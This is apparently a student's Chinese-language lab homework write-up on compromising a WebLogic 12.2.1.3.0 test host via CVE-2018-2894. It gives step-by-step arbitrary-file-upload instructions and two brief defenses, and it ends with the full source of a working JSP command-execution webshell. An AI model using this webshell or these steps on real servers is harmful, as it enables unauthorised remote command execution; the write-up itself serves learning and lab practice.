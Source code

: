 ### 红岩寒假作业

#### task2 超级简单的渗透     作业要求：渗透进目标机器 172.23.26.66:7001

***

###### level 0

刚开始看到作业的时候，首先就看了一下就准备做渗透的题，因为也有学了一部分相关的知识，然后就开始用nmap扫描了一下172.23.26.66

![1.png](https://i.loli.net/2021/02/04/ox6VgEZGuWDjcBi.png)

发现7001/7002端口和之前看见的端口不一样，然后就开始去查了一下相关的内容发现，7001/7002端口的渗透可以通过**渗透weblogic**来拿到root权限！

![2.png](https://i.loli.net/2021/02/04/YyDgAuHTKhQf83B.png)

然后我输入172.23.26.66:7001/console 

它自动给跳转到这个页面

![3.png](https://i.loli.net/2021/02/04/aFEbR5JxGWwVjlH.png)

可以在左下角看见这个weblogic的版本是12.2.1.3.0

经过相关的资料查询，知道了可以用弱口令登陆后台然后上传木马拿到root，或者也可以利用已知的CVE漏洞进行渗透，我当时选的是CVE-2018-2894，因为我试了一下查用的弱口令好像登不进后台，我就准备利用CVE-2018-2894的任意文件上传漏洞进行渗透了。

***

##### level 1

知道了可以利用任意文件上传漏洞的方式，那么就开始进行渗透。

首先，访问172.23.26.66:7001/ws_utc/config.do，进入如下页面

![4.png](https://i.loli.net/2021/02/04/McDeV9ToAZtsFEY.png)

其次，把Work Home Dir的目录改成

/u01/oracle/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/com.oracle.webservices.wls.ws-testclient-app-wls/4mcj4y/war/css

目的是将目录设置为ws_utc应用的静态文件css目录，访问这个目录可以不需要权限，然后进入安全页面

![5.png](https://i.loli.net/2021/02/04/uqHc7SfaE3Kd4bV.png)

在这里就可以实现文件上传了，但是文件一定要是jsp文件，我在网上找了一个木马传了上去，木马内容放在了最后面。

最后，用F12的查看器查看时间戳

![6.png](https://i.loli.net/2021/02/04/OkXEVAw3uhpJGU8.png)

访问http://172.23.26.66:7001/ws_utc/css/config/keystore/1611927440166_hhz.jsp

执行webshell成功拿到权限

![7.png](https://i.loli.net/2021/02/04/Cjem4bznwQ1fiSs.png)

 

这个CVE的防御方法，应该就是:

1.设置config.do,begin.do页面登录授权后访问，这样就不能利用任意文件上传漏洞的方法了

2.更新weblogic的版本，这个方法我目前看到是使用于weblogic 12.2.1.3.0版本，如果是最新版的话应该没有这个问题

***

##### level 2

开始本地复现，直接进入CVE-2018-2894的目录下，下载环境

<img src="https://i.loli.net/2021/02/04/SNqjOVYRDPKLUn4.png" alt="8.png" style="zoom:50%;" />

然后访问一下，环境配好了

![9.png](https://i.loli.net/2021/02/04/uCnG2cyIt54AxOL.png)

**先拿到用户名和密码**

![10.png](https://i.loli.net/2021/02/04/UIG1ZkoL7p3wT8B.png)

知道了用户名是weblogic，密码是SUE4amKt，登录进后台

在base_domain里，点击高级

![11.png](https://i.loli.net/2021/02/04/VJDWTYacQqLRd9X.png)

将web服务测试页点开，然后确认保存

![12.png](https://i.loli.net/2021/02/04/K19DndtyYmQZP3J.png)

**之后的内容就跟level1的内容一样了，因为没有特别的技术操作难度，我就写到这里~**

***

***

**总结：**

**怎么说呢，在没有成功之前感觉这个玩意还是挺难的，成功之后就跟学长说的一样，2分钟就搞定了（我是菜鸡，前面的步骤搞了一天），这种边学边做的方式，感觉比之前直接学习要好很多，之前的那种学习感觉都是纸上谈兵，一旦操作起来才发现没有那么简单。**

**总之，从这次的寒假作业里面学到了很多，知道自己还要学的地方还有很多，路漫漫其修远兮，菜鸡还需努力。**

**我会尽量完成task1然后再做出另外一个task2的CVE的，如果时间够的话**

![13.png](https://i.loli.net/2021/02/04/ZOAXzpbLcwyoMRh.png)

***最后，谢谢学长的解惑！！！***

***

***

***

##### POC

`<%@ page import="java.util.*,java.io.*"%>
<%
%>
<HTML><BODY>
Commands with JSP

<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
if (request.getParameter("cmd") != null) {
    out.println("Command: " + request.getParameter("cmd") + "<BR>");
    Process p;
    if ( System.getProperty("os.name").toLowerCase().indexOf("windows") != -1){
        p = Runtime.getRuntime().exec("cmd.exe /C " + request.getParameter("cmd"));
    }
 else{
        p = Runtime.getRuntime().exec(request.getParameter("cmd"));
    }
    OutputStream os = p.getOutputStream();
    InputStream in = p.getInputStream();
    DataInputStream dis = new DataInputStream(in);
    String disr = dis.readLine();
    while ( disr != null ) {
    out.println(disr);
    disr = dis.readLine();
    }
}
%>
</pre>
</BODY></HTML>`

